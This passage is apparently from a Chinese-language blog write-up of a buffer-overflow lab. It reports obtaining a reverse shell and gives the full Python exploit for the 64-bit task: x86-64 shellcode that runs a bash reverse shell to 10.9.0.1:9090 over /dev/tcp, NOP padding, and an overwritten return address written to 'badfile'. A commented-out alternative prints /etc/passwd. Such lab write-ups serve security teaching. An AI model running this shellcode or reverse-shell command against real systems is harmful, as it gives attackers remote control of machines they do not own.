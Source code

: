 ```py
```
最终成功获得反向 shell 。
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102136195.png)


## task 4 Attack 64 bit (known Buffer Size)
成功截图如下：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102136961.png)

代码如下：
```py
#!/usr/bin/python3
import sys

shellcode = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   #"/bin/ls -l; echo Hello 64; /bin/tail -n 4 /etc/passwd     *"
   "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 0               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0x00007fffffffdfb0     # Change this number 
offset = 216              # Change this number 

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 8] = (ret).to_bytes(8,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```
